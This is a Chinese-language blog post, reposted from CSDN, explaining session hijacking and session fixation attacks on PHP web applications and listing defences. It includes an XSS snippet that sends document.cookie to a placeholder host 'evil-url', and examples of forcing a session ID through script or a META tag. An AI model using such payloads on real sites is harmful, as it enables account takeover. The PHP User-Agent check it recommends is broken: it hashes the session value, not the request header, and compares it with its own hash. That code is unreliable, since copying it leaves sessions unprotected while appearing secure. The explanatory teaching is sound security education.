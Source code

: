 ## Session攻击手段(会话劫持/固定)及其安全防御措施

PHP开源社区  *2019. October. 31*  转载 [https://blog.csdn.net/h_mxc/article/details/50542038](https://blog.csdn.net/h_mxc/article/details/50542038)

#### 一、概述

对于Web应用程序来说，加强安全性的第一条原则就是——不要信任来自客户端的数据，一定要进行数据验证以及过滤才能在程序中使用，进而保存到数据层。然而，由于Http的无状态性，为了维持来自同一个用户的不同请求之间的状态，客户端必须发送一个唯一的身份标识符（Session ID）来表明自己的身份。

很显然，这与前面提到的安全原则是相违背的，但是没有办法，为了维持状态，我们别无选择，这也导致了Session在web应用程序中是十分脆弱的一个环节。

由于PHP内置的Session管理机制并没有提供安全处理，所以，开发人员需要建立相应的安全机制来防范会话攻击。针对Session的攻击手段主要有会话劫持（Session hijacking）和会话固定（Session fixation）两种。

#### 二、会话劫持（Session hijacking）

会话劫持（Session hijacking），这是一种通过获取用户Session ID后，使用该Session ID登录目标账号的攻击方法，此时攻击者实际上是使用了目标账户的有效Session。会话劫持的第一步是取得一个合法的会话标识来伪装成合法用户，因此需要保证会话标识不被泄漏。

##### 攻击步骤：

- 目标用户需要先登录站点；

- 登录成功后，该用户会得到站点提供的一个会话标识SessionID；

- 攻击者通过某种攻击手段捕获Session ID；

- 攻击者通过捕获到的Session ID访问站点即可获得目标用户合法会话。

![GcHLXvwM5g4Y9br](https://i.loli.net/2019/10/31/GcHLXvwM5g4Y9br.jpg)

##### 攻击者获取SessionID的方式有多种：

- 暴力破解：尝试各种Session ID，直到破解为止；

- 预测：如果Session ID使用非随机的方式产生，那么就有可能计算出来；

- 窃取：使用网络嗅探，XSS攻击等方法获得

PHP内部Session的实现机制虽然不是很安全，但是关于生成SessionID的环节还是比较安全的，这个随机的SessionID往往是极其复杂的并且难于被预测出来，所以，对于第一、第二种攻击方式基本上是不太可能成功的。

在第三种攻击方式中，针对网络嗅探攻击，是通过捕获网络通信数据得到SessionID的，这种攻击可以通过SSL避免。本文主要分析的是应用层面的攻击方式及其防御方法。

目前有三种广泛使用的在Web环境中维护会话（传递SessionID）的方法：URL参数，隐藏域和Cookie。其中每一种都各有利弊，Cookie已经被证明是三种方法中最方便最安全的。

从安全的观点，如果不是全部也是绝大多数针对基于Cookie的会话管理机制的攻击对于URL或是隐藏域机制同样适用，但是反过来却不一定，这就让Cookie成为从安全考虑的最佳选择。  

使用Cookie而产生的一个风险是用户的Cookie会被攻击者所盗窃。如果Session ID保存在Cookie中，Cookie的暴露就是一个严重的风险，因为它能导致会话劫持。

最基本的Cookie窃取方式：XSS漏洞。

一旦站点中存在可利用的XSS漏洞，攻击者可直接利用注入的JS脚本获取Cookie，进而通过异步请求把存有Session ID的Cookie上报给攻击者。

```javascript
var img = document.createElement('img');
img.src = 'http://evil-url?c=' +encodeURIComponent(document.cookie);
document.getElementsByTagName('body')[0].appendChild(img);
```

如何寻找XSS漏洞是另外一个话题了，这里不详细讨论。防御上可以设置Cookie的HttpOnly属性，一旦一个Cookie被设置为HttpOnly，JS脚本就无法再获取到，而网络传输时依然会带上，也就是说依然可以依靠这个Cookie进行Session维持，但客户端JS对其不可见。

那么即使存在XSS漏洞也无法简单的利用其进行Session劫持攻击了。但是上面说的是无法利用XSS进行简单的攻击，但是也不是没有办法的。既然无法使用document.cookie获取到，可以转而通过其他的方式。

##### 下面介绍一种XSS结合其他漏洞的攻击方式。

利用PHP开发的应用会有一个phpinfo页面。而这个页面会dump出请求信息，其中就包括Cookie信息。

如果开发者没有关闭这个页面，就可以利用XSS漏洞向这个页面发起异步请求，获取到页面内容后Parse出Cookie信息，然后上传给攻击者。

phpinfo只是大家最常见的一种dump请求的页面，但不仅限于此，为了调试方便，任何dump请求的页面都是可以被利用的漏洞。防御上是关闭所有phpinfo类dump request信息的页面。

##### 防御方法：

1. 更改Session名称。PHP中Session的默认名称是PHPSESSID，此变量会保存在Cookie中，如果攻击者不分析站点，就不能猜到Session名称，阻挡部分攻击。

2. 关闭透明化SessionID。透明化SessionID指当浏览器中的Http请求没有使用Cookie来存放Session ID时，Session ID则使用URL来传递。

3. 设置HttpOnly。通过设置Cookie的HttpOnly为true，可以防止客户端脚本访问这个Cookie，从而有效的防止XSS攻击。

4. 关闭所有phpinfo类dump request信息的页面。

5. 使用User-Agent检测请求的一致性。但有专家警告不要依赖于检查User-Agent的一致性。这是因为服务器群集中的HTTP代理服务器会对User-Agent进行编辑，而本群集中的多个代理服务器在编辑该值时可能会不一致
   
   ```php
   <?php
   session_start();
   if (isset($_SESSION['HTTP_USER_AGENT'])) {
    if ($_SESSION['HTTP_USER_AGENT'] != md5($_SESSION['HTTP_USER_AGENT'])){
    exit();
    }
   }else{
    $_SESSION['HTTP_USER_AGENT'] = md5($_SESSION['HTTP_USER_AGENT']);
   }
   ```

6. 加入Token校验。同样是用于检测请求的一致性，给攻击者制造一些麻烦，使攻击者即使获取了Session ID，也无法进行破坏，能够减少对系统造成的损失。但Token需要存放在客户端，如果攻击者有办法获取到Session ID，那么也同样可以获取到Token
   
   ```php
   <?php
   session_start();
   $token = md5(uniqid(rand(), true));
   $_SESSION['token'] = $token;
   ```

**三、 会话固定（Session fixation）**

会话固定（Session fixation）是一种诱骗受害者使用攻击者指定的会话标识（SessionID）的攻击手段。这是攻击者获取合法会话标识的最简单的方法。

会话固定也可以看成是会话劫持的一种类型，原因是会话固定的攻击的主要目的同样是获得目标用户的合法会话，不过会话固定还可以是强迫受害者使用攻击者设定的一个有效会话，以此来获得用户的敏感信息。

##### 攻击步骤：

- 攻击者通过某种手段重置目标用户的SessionID，然后监听用户会话状态；

- 目标用户携带攻击者设定的Session ID登录站点；

- 攻击者通过Session ID获得合法会话。

![Otfz9LcdeYagTFm](https://i.loli.net/2019/10/31/Otfz9LcdeYagTFm.jpg)

##### 攻击者重置SessionID的方式：

重置Session ID的方法同样也有多种，可以是跨站脚本攻击，如果是URL传递Session ID，还可以通过诱导的方式重置该参数，比如可以通过邮件的方式诱导用户去点击重置Session ID的URL，使用Cookie传递可以避免这种攻击。

使用Cookie来存放SessionID，攻击者可以在以下三种可用的方法中选择一种来重置Session ID。

1、使用客户端脚本来设置Cookie到浏览器。大多数浏览器都支持用客户端脚本来设置Cookie的，例如document.cookie=”sessionid=123”，这种方式可以采用跨站脚本攻击来达到目的。防御方式可以是设置HttpOnly属性，但有少数低版本浏览器存在漏洞，即使设置了HttpOnly，也可以重写Cookie。所以还需要加其他方式的校验，如User-Agent验证，Token校验等同样有效。

2、 使用HTML的<META>标签加Set-Cookie属性。服务器可以靠在返回的HTML文档中增加<META>标签来设置Cookie。例如<meta http-equiv=Set-Cookiecontent=”sessionid=123”>，与客户端脚本相比，对<META>标签的处理目前还不能被浏览器禁止。

3、使用Set-Cookie的HTTP响应头部设置Cookie。攻击者可以使用一些方法在Web服务器的响应中加入Set-Cookie的HTTP响应头部。如会话收养，闯入目标服务器所在域的任一主机，或者是攻击用户的DNS服务器。

这里还有一点需要注意，攻击者如果持有的是有效的SessionID，那么防御措施就一定得校验验证。如攻击者可以先到目标站点登录，获得有效的Session ID，然后再拿这个Session ID去重置目标用户的会话标识，那么这时候用户将会在不知情的情况下访问攻击者设定的合法会话（实际上登录的是攻击者的账号了）中，从而攻击者将有可能获取到目标用户的敏感信息。

##### 防御方法：

1. 用户登录时生成新的SessionID。如果攻击者使用的会话标识符不是有效的，那么这种方式将会非常有效。如果不是有效的会话标识符，服务器将会要求用户重新登录。如果攻击者使用的是有效的Session ID，那么还可以通过校验的方式来避免攻击。

2. 大部分防止会话劫持的方法对会话固定攻击同样有效。如设置HttpOnly，关闭透明化Session ID，User-Agent验证，Token校验等。
